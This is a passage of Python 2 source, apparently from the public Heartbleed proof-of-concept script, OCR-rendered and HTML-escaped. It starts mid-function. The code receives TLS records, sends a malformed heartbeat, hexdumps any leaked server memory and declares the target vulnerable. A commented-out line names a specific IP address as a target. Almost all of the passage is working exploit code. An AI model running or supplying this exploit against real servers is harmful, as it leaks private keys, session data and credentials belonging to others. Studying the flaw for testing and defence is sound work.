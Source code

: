             remain -= len(data)
    return rdata




def recvmsg(s):
    hdr = recvall(s, 5)
    if hdr is None:
        print &#x27;Unexpected EOF receiving record header - server closed connection&#x27;
        return None, None, None
    typ, ver, ln = struct.unpack(&#x27;&gt;BHH&#x27;, hdr)
    pay = recvall(s, ln, 10)
    if pay is None:
        print &#x27;Unexpected EOF receiving record payload - server closed connection&#x27;
        return None, None, None
    print &#x27; ... received message: type = %d, ver = %04x, length = %d&#x27; % (typ, ver, len(pay))
    return typ, ver, pay


def hit_hb(s):
    s.send(hb)
    while True:
        typ, ver, pay = recvmsg(s)
        if typ is None:
            print &#x27;No heartbeat response received, server likely not vulnerable&#x27;
            return False


        if typ == 24:
            print &#x27;Received heartbeat response:&#x27;
            hexdump(pay)
            if len(pay) &gt; 3:
                print str(len(pay)) + &quot;\n&quot;
                print &#x27;WARNING: server returned more data than it should - server is vulnerable!&#x27;
            else:
                print &#x27;Server processed malformed heartbeat, but did not return any extra data.&#x27;
            return True


        if typ == 21:
            print &#x27;Received alert:&#x27;
            hexdump(pay)
            print &#x27;Server returned error, likely not vulnerable&#x27;
            return False


BUFSIZ = 1024


def main():
    opts, args = options.parse_args()

##    args[0] = &quot;101.227.244.221&quot;
##    opts.port = &quot;443&quot;
    if len(args) &lt; 1:
        options.print_help()
        return
